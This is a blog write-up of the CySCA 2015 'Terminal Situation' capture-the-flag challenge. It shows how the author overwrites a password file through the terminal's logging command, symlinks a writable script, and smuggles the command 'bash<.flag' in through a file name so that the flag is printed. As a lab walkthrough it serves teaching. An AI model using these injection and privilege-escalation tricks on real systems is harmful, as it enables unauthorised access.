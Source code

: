 ```yaml
---
title: CySCA 2015 - Web Application Pentest 6 - Terminal Situation
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *

It's no coincidence this challenge is called Terminal Situation, we have a 
terminal sitting right in front of us. 

{% highlight text %}
<server> connected
{% endhighlight %}

Lets type `help` to see if it will give us a prompt.

{% highlight text %}
> help
AVAILABLE COMMANDS:
help                  display this information
id                    show user id
ps                    list active processes
ip                    list network interfaces
rm                    delete file
ln <src> <dst>        create symlink (admins only)
ls                    list directory entries
  -s                  view file size information
  -h                  view hidden files
uname                 show system information
auth <password>       authenticate as administrator
log <outfile>         append next command output to file
reset                 reset to initial terminal state
{% endhighlight %}

We notice a command `auth` which takes a password to authenticate as an 
administrator. We also notice that using `ln` is a privileged command, 
which indicated we need to become an administrator.

Performing an "ls -h", showing hidden files, reveals

{% highlight text %}
> ls -h
.
..
.flag
.passwd
bin
{% endhighlight %}

The password for the authentication is going to be stored in `.passwd`, however
we have no way of reading files. We do, however, have a method of writing and
deleting, namely `log` and `rm`. 

- `rm .passwd`: Delete the passwd file so we can re-write it
- `log .passwd`: Log the next commands output into .passwd
- `ls` : This outputs `bin` into `.passwd`
- `auth bin`: Using our new password, `bin`, we log in.

{% highlight text %}
> rm .passwd
> log .passwd
[log] next command output will be saved to .passwd
> ls
bin
> auth bin
[auth] admin login successful!
{% endhighlight %}

Okay so now we can fiddle around with the ln command. Lets take a look at 
what's in the `bin` directory. 

{% highlight text %}
> ls -s -h bin
total 40
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 .
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:10 ..
-rwxr-xr-x 1 root     ecwiterm   54 Nov 19 05:42 bash
-rwxr-xr-x 1 ecwiterm ecwiterm    3 Nov 19 05:42 id.sh
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 ip
-rwxr-xr-x 1 root     ecwiterm   53 Nov 19 05:42 ln
-rwxr-xr-x 1 root     ecwiterm   58 Nov 19 05:42 ls
-rwxr-xr-x 1 root     ecwiterm   49 Nov 19 05:42 ps
-rwxr-xr-x 1 root     ecwiterm   55 Nov 19 05:42 rm
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 uname
{% endhighlight %}

The only file we have write access to is id.sh. Lets see if we can write 
arbitrary commands into it:

{% highlight text %}
> log bin/id.sh
log: invalid log file, can't use bin directory
{% endhighlight %}


I'm not surprised. What if we create a symbolic link to the script and try log
to it? 

{% highlight text %}
> ln bin/id.sh id.sh
> ls -s -h
total 20
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:14 .
drwxr-xr-x 3 root     ecwiterm 4096 Nov 19 05:42 ..
-rwxr-xr-x 1 root     ecwiterm   39 Nov 19 05:42 .flag
-rw-rw-r-- 1 ecwiterm ecwiterm    3 Nov 19 08:10 .passwd
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 bin
lrwxrwxrwx 1 ecwiterm ecwiterm    9 Nov 19 08:14 id.sh -> bin/id.sh
{% endhighlight %}

Perfect. Now lets set up the command we want to run when we invoke `id`. We can 
write arbitrary commands using ls <filename> provided the file exists, so we create
the command we want:

{% highlight bash %}
> log bash<.flag
[log] next command output will be saved to bash<.flag
> ls
bin
id.sh
> ls bash*
bash<.flag
{% endhighlight %}

Our command to write will be `bash<.flag`. We now need to write this into the
script. 

{% highlight text %}
> log id.sh
[log] next command output will be saved to id.sh
> ls bash*
bash<.flag
> id
[error] uid=1002(ecwiterm) gid=1002(ecwiterm) groups=1002(ecwiterm)
bash: line 1: $'FLAG{4b000000000000000000000000000000}\r': command not found
{% endhighlight %}

And thanks to bash's useful error messages, it prints out the flag for us.

